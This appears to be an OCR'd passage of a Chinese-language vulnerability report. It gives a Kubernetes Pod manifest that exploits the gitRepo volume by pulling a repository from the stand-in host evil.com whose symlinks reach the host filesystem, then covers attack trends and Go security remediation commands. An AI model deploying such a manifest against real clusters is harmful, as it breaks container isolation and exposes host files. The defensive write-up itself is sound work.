 **漏洞描述**:
攻击者可通过gitRepo卷绕过容器隔离。

**漏洞利用示例**:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  containers:
  - name: evil-container
    image: alpine
    volumeMounts:
    - name: git-volume
      mountPath: /mnt
  volumes:
  - name: git-volume
    gitRepo:
      repository: "https://evil.com/repo.git"
      # 恶意仓库包含符号链接指向主机文件系统
      revision: "master"
```

## 三、漏洞利用趋势分析

### 1. 攻击复杂度提升
- 多阶段攻击链
- 利用合法功能进行攻击
- 隐蔽性增强

### 2. 供应链攻击增多
- XZ Utils后门事件显示供应链攻击的严重性
- 开源项目成为攻击目标
- 需要加强代码审计

### 3. 协议级漏洞
- HTTP/2 Rapid Reset显示协议设计缺陷
- 影响范围广泛
- 修复难度大

## 四、防御建议

### 1. 即时响应措施
```bash
# 1. 更新Go版本
go get -u golang.org/dl/go1.22.1
go1.22.1 download

# 2. 审计依赖
go list -m all | grep -E "vulnerable-package"

# 3. 使用安全扫描工具
go install github.com/securego/gosec/v2/cmd/gosec@latest
gosec ./...
```
